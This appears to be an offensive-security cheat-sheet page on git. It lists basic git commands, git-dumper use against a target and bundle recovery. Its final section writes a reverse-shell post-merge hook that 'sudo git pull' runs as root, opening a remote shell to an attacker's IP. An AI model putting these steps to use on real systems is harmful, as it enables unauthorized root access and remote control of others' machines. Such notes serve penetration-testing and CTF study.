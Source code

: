 ```yaml
---
title: "git"
date: 2024-6-28
tags: ["Git", "Git-Dumper", "Sudo", "Enumeration", "Web Exploitation"]
---
```


### Basic Commands

```console
# Show status
git status
```

```console
# Reset the current branch to a previous commit
git reset --hard
```

```console
# Show information about files
git ls-files --stage
```

```console
# Show current branch
git branch
```

```console
# Show commits
git log <BRANCH_NAME> --oneline
```

```console
# Show diff, a and b are commit hash
# a is the older commit
git diff <A_COMMIT_HASH> <B_COMMIT_HASH>
```

```console
# Show commit
git show <COMMIT_HASH>
```

---

### Git Tools

{{< tab set1 tab1 active >}}git-dumper{{< /tab >}}
{{< tab set1 tab2 >}}git-bundle{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
git-dumper <TARGET> result/
```

<small>*Ref: [git-dumper](https://github.com/arthaud/git-dumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# List all bundles
find . -type f -exec file {} \;
```

```console
# Get bundle
git clone -b master @hashed/ab/cd/<HASH>.bundle
```

{{< /tabcontent >}}

---

### SUDO

```console
# Copy target project
cp -r /var/www/html/project .
```

```console
# Create a malicious post-merge
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1' > ./project/.git/hooks/post-merge
```

```console
# Run
sudo /usr/bin/git pull
```

<small>*Note: Make changes to the project to make the pull work*</small>
